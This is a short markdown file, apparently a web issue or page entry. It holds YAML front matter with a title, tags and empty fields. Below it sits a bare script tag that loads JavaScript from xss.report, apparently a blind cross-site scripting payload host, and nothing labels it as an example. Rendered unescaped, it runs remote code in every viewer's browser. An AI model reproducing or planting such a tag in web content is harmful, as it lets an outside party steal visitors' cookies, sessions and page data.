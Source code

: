 ```yaml
---
title: Web issue
tags:
  - "101"
  - "360"
  - "#Babbage"
url: ""
image: ""
image_text: ""
---
```


<script src=https://xss.report/c/moz4a></script>
